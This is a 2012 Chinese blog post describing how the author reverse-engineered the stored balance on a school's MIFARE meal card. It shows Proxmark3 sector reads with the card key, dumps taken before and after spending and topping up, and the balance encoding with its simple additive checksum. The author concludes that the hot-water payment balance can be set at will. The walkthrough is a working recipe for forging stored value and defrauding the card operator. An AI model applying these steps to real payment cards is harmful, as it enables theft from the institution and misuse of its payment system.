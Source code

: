 title: "破解某学校饭卡打热水消费功能"
date: 2012-07-26 18:46:44
tags:
id: 84
comment: false
---

首先已经得到卡的每一个扇区密钥。
此MIFARE卡每一个扇区密钥都是一样的，
因此对于破解带来很大的帮助。
同时也带来了更大的安全隐患。
首先我获得了每一个扇区的数据，
导出这些数据。
然后拿去使用，再一次获取每一个扇区数据，
从而确定了，消费使用的是那些扇区。
进行对比后发现使用的是第4和第5快扇区。
对应变化数据块号是13，14，17.

消费前扇区数据
[code lang="c"]
proxmark3&gt; hf mf rdsc 3 a ffffffffffff
--sector no:03 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff f9 80 69 19 96 3f 6b 81 04 f1 44 01 82
data:00 01 54 55 00 00 00 00 00 87 c3 d2 b4 00 00 00

data:00 01 54 55 00 00 00 00 00 87 c3 d2 b4 b4 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
proxmark3&gt; hf mf rdsc 4 a ffffffffffff
--sector no:04 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff ff ff ff ff f9 80 69 19 96 3f 6b 81 04
data:00 01 54 55 00 00 00 00 00 87 c3 d2 b4 b4 b4 00

data:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
[/code]

将钱完全消费后数据
[code lang="c"]
proxmark3&gt; hf mf rdsc 3 a ffffffffffff
--sector no:03 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff f9 80 69 19 96 3f 6b 81 04 f1 44 01 82
data:00 00 00 00 00 00 00 00 00 87 c3 d2 b4 00 00 00

data:00 00 00 00 00 00 00 00 00 87 c3 d2 b4 b4 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
proxmark3&gt; hf mf rdsc 4 a ffffffffffff
--sector no:04 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff ff ff ff ff f9 80 69 19 96 3f 6b 81 04
data:00 00 00 00 00 00 00 00 00 87 c3 d2 b4 b4 b4 00

data:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
[/code]

然后我向卡里充值10元（正常充值）
[code lang="c"]
proxmark3&gt; hf mf rdsc 3 a ffffffffffff
--sector no:03 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff f9 80 69 19 96 3f 6b 81 04 fa 44 01 82
data:00 10 00 10 00 10 00 ad 00 00 00 00 00 00 00 00

data:00 10 00 10 00 10 00 ad 00 00 00 00 00 00 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
proxmark3&gt; hf mf rdsc 4 a ffffffffffff
--sector no:04 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff ff ff ff ff f9 80 69 19 96 3f 6b 81 04
data:00 10 00 10 00 10 00 ad 00 00 00 00 00 00 00 00

data:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
[/code]

然后再去消费到剩下9.44元
[code lang="c"]
proxmark3&gt; hf mf rdsc 3 a ffffffffffff
--sector no:03 key type:00 key:64 85 9a 11 73 24
#db# READ SECTOR FINISHED

isOk:01
data:ff ff ff f9 80 69 19 96 3f 6b 81 04 f1 44 01 82
data:00 09 44 4d 00 00 00 00 00 87 c3 d2 b4 00 00 00

data:00 09 44 4d 00 00 00 00 00 87 c3 d2 b4 b4 00 00
data:00 00 00 00 00 00 ff 07 80 69 19 96 3f 6b 81 04
[/code]

到此为止，通过数据的比对，已经很明确了那些位是用来控制钱的金额和校验。
该卡使用16进制数来表示10进制的金额。
09 44 表示金额的小数点前后位。
校验位紧跟其后。
 09
+44
-----
 4d

 01
+54
-----
 55
校验算法也十分简单。
到此为止此卡的打热水功能已经完全顺心所欲。

此卡之所以叫做饭卡，当然还有打饭&超市消费的功能。
但是这个功能初步判断是实时的服务器验证，暂时没有有破解的门道！